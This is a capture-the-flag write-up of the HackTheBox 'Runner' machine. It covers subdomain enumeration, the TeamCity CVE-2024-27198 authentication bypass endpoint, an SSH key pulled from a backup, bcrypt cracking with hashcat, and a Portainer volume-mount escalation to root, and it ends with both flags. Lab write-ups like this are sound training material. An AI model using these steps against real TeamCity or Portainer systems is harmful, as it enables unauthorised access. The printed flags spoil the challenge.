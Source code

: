 ```yaml
---
layout: post
author: k0d14k
title: Runner (machine)
---
```


<img src="runner.png" alt="logo" style="width:100px;"/>


Tags: `TeamCity`, `SSH Private Key`, `Portainer Privilege Escalation`

---

## Introduction and information gathering

In this machine provided by HackThebBox We have a CI/CD provider’s web site.

![Untitled](Untitled.png)

Looking into the web site it doesn’t seem to provide any useful information So i start with a `gobuster` enumeration (I used [this](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/bitquark-subdomains-top100000.txt) wordlist in this pentest).

```bash
┌──(k0d14k㉿k0d14k)-[~/…/tools/SecLists/Discovery/DNS]
└─$ gobuster vhost -u runner.htb -t 100 -w bitquark-subdomains-top100000.txt --append-domain 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://runner.htb
[+] Method:          GET
[+] Threads:         100
[+] Wordlist:        bitquark-subdomains-top100000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: teamcity.runner.htb Status: 401 [Size: 66]
Progress: 100000 / 100001 (100.00%)
===============================================================
Finished
===============================================================

```

As shown by the `gobuster` execution, there is an alternative DNS known as `teamcity.runner.htb`.

![Untitled](Untitled%201.png)

I never heard of this service before but I used `IntelliJ Idea` in the past so I know the `JetBrains` style and this is a `JetBrains` Service.

Searching for some more information I noticed that this version of `TeamCity` has at least two CVEs and so I start to try some exploits.

Bot of these CVEs are explained [here](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/) and I can confirm that, using this article, I was able to get an administrator’s access token to get logged in.

As the guide suggests I’ve got the admin id by accessing the endpoint: `/hax?jsp=/app/rest/users;.jsp`

![Untitled](Untitled%202.png)

Then, by the following request, I’ve got the admin’s token:

![Untitled](Untitled%203.png)

And now I’m able to access the admin dashboard in `/admin/admin.html`.

![Untitled](Untitled%204.png)

## Getting the first access

In the left menu, We have many entries. If you look better you’ll notice that there is the `Server Administration` sub-menu that seems very interesting.

 In this part we have a `backup` functionality and it seems to provide very useful information:

![Untitled](Untitled%205.png)

After I downloaded and unzipped the backup I found an SSH key in the project's directory so We could establish a connection using one of the default users: `john` or `matthew`. So after set `400` permission over the `id_rsa` file We could launch the command:

```bash
ssh -i id_rsa john@runner.htb
```

And We are effectively connected as `john`.

![Untitled](Untitled%206.png)

### Road to ROOT

Now our focus is: “How can We become root”? Let’s see if We covered every host by catting `/etc/hosts`:

```bash
john@runner:/tmp$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 runner runner.htb teamcity.runner.htb portainer-administration.runner.htb

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```

OK, We’ve got a new host: `portainer-administration.runner.htb`. Another useful piece of information that I didn’t tell you (but you should know if you are following this guide to solve the machine) is that in the backup there was a set of bcrypted passwords.

As I told you before, Matthew is a local user on the server. Maybe this user is linked to portainer so let’s try to crack the password using `hashcat`.

```bash
┌──(k0d14k㉿k0d14k)-[~/…/projects/AllProjects/pluginData/ssh_keys]
└─$ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt -w 3 -S --show 
$2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em:piper123
```

I used the `--show` flag because I just got this password, you should create the hash file (containing the bcrypt) and copy-paste the command without the flag).

Let’s try to login into portainer with the founded credentials:

![Untitled](Untitled%207.png)

In portainer there is a really pretty way to gain privileges.

First of all the attacker needs to create a volume with the following attributes:

```bash
type=tmpfs
device=tmpfs
o=bind
device=/root
```

Then you should be able to create a new interactive container, where you are root by default, and mount this volume, when you attach a shell you get the host /root in your virtual filesystem.

So let’s connect a shell to the container:

![Untitled](Untitled%208.png)

And then get our last flag:

![Untitled](Untitled%209.png)

---

## Flags

## User flag: f2ed51639b0070b93164b4707927dc6d

## Root flag: 608da84938460b9541397de388d09997
